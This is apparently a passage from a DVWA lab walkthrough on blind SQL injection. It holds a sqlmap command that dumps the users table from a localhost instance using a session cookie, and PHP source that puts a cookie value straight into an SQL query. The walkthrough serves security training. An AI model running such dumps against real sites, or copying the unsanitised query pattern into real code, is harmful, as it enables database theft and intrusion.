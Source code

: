 
![](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*naafZm0WcWg1JsxUUzBucA.png)

Payload: 
```ruby
sqlmap -u "http://localhost/DVWA/vulnerabilities/sqli_blind/" \
--data="id=1&Submit=Submit" \
--cookie="PHPSESSID=sik8mit21hrgujka27r06gep1g; security=medium" \
--batch --random-agent --dbms=mysql -D dvwa -T users --dump

```
![](https://i.imgur.com/HfKXrrx.png)
![](https://i.imgur.com/r5cjHkO.png)

# 3. Security — High

# Source Code SQL Injection - High
```php
<?php

if( isset( $_COOKIE[ 'id' ] ) ) {
    // Get input
    $id = $_COOKIE[ 'id' ];
    $exists = false;

    switch ($_DVWA['SQLI_DB']) {
        case MYSQL:
            // Check database
            $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
            $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ); // Removed 'or die' to suppress mysql errors

            $exists = false;
            if ($result !== false) {
                // Get results
                try {
                    $exists = (mysqli_num_rows( $result ) > 0); // The '@' character suppresses errors
                } catch(Exception $e) {
                    $exists = false;
                }
            }

            ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
            break;
        case SQLITE:
            global $sqlite_db_connection;

            $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
            try {
                $results = $sqlite_db_connection->query($query);
                $row = $results->fetchArray();
                $exists = $row !== false;
            } catch(Exception $e) {
                $exists = false;
            }

            break;
    }

```